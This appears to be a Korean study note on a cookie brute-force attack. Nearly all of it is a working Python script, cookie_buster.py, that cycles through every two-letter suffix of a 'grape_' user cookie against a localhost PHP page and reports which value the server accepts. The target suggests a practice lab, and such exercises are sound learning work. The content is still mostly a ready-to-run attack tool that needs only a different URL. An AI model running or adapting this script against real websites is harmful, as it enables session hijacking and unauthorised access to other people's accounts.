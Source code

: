 # Cookie brute force 공격

babo 를 grape 로 수정합니다.

![Untitled](Untitled%20500.png)

전체코드

```python
'''
Title:cookie_buster.py 
Author:Jaeho Jeon 2024-01-25
'''

import requests

def request_checker(url,random_2char):
    user_value = f"grape_{random_2char}"
    cookies = {
        'user': user_value
    }
    response = requests.get(url, cookies=cookies,allow_redirects=False)
    if(response.status_code==200):
        print(f"Cracked!!! : {user_value}")
        return True
    else:
        print(f"failed : {user_value}")

def buster_2char(characters):      
    for c1 in characters:
        for c2 in characters:
                gen = ''.join([c1, c2])
                if(request_checker(url = 'http://localhost:8000/page-grape.php',random_2char=gen)):
                    return
                        
buster_2char('abcdefghijklmnopqrstuvwxyz')
```
